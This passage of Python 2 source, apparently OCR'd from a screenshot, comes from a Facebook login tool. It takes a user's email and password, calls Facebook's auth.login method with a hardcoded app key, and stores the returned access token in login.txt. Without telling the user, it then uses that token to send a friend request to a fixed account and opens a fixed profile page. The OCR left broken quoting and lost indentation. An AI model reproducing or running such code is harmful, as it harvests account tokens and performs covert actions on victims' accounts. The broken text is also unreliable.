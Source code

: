 url = br.geturl()
if 'save-device' in url:
try:
sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
x=hashlib.new("md5")
x.update(sig)
a=x.hexdigest()
data.update({'sig':a})
url = "https://www.facebook.com/rajatumarabbuhoy"
r=requests.get(url,params=data)
z=json.loads(r.text)
unikers = open("login.txt", 'w')
unikers.write(z['access_token'])
unikers.close()
print '\n\033[1;96m[✓] \x1b[1;92mLogin Successful'
os.system('xdg-open https://www.facebook.com/rajatumarabbuhoy
requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
menu()
except requests.exceptions.ConnectionError:
print"\n\033[1;96m[!] \x1b[1;91mThere is no internet connection"
keluar()
if 'checkpoint' in url:
print("\n\033[1;96m[!] \x1b[1;91mIt seems that your account has a checkpoint")
os.system('rm -rf login.txt')
time.sleep(1)
keluar()
else:
print("\n\033[1;96m[!] \x1b[1;91mPassword/Email is wrong")
os.system('rm -rf login.txt')
time.sleep(1)
login()

def menu():
os.system('clear')
try:
toket=open('login.txt','r').read()
except IOError:
os.system('clear')
print"\033[1;96m[!] \x1b[1;91mToken invalid"
os.system('rm -rf login.txt')
time.sleep(1)
login()
try:
otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
a = json.loads(otw.text)
nama = a['name']
id = a['id']
except KeyError:
os.system('clear')
print"\033[1;96m[!] \033[1;91mIt seems that your account has a checkpoint"
os.system('rm -rf login.txt')
time.sleep(1)
login()
except requests.exceptions.ConnectionError:
print"\033[1;96m[!] \x1b[1;91mThere is no internet connection"
keluar()
os.system("clear")
print logo